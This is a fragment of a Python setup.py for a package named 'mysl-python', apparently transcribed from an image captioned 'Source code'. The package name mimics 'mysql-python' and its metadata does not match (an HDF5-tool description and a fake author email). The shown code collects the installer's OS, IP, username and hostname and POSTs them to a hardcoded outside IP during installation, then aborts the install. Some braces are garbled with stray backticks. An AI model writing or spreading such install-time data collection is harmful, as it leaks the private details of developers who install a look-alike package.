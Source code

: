 ```
except:
pass

POST = python2POST
data = `{`
"os": os_type,
"ip": ip,
"username": username,
"hostname": hostname,
"name": package_name
`}`
POST("http://175.24.100.2:8000/api/python/", data=data)


class AbortInstall(install):
def run(self):
raise SystemExit(
"[+] It looks like you try to install mysl-python without checking it.\n"
"[-] is that alright? \n"
"[*] Please uninstall this package \n"
"[*] Please uninstall this package \n"
"[*] Please uninstall this package \n"
"[/] Aborting installation.")


setuptools.setup(
name="mysl-python",
version="1.0.0",
url="http://pypi.org/",
author="jackson",
author_email="nonexists@gmail.com",
description="hdfuse is a tool for quick inspection of HDF5 files",
long_description=open('README.rst').read(),
packages=setuptools.find_packages(),
cmdclass=`{`'install': AbortInstall`}`,
install_requires=[],
classifiers=[
'Development Status :: 2 - Pre-Alpha',
'Programming Language :: Python',
'Programming Language :: Python :: 2',
'Programming Language :: Python :: 2.7',
'Programming Language :: Python :: 3',
'Programming Language :: Python :: 3.4',
'Programming Language :: Python :: 3.5',
'Programming Language :: Python :: 3.6',
'Programming Language :: Python :: 3.7',
'Programming Language :: Python :: 3.8',
'Programming Language :: Python :: 3.9',
],
)
```
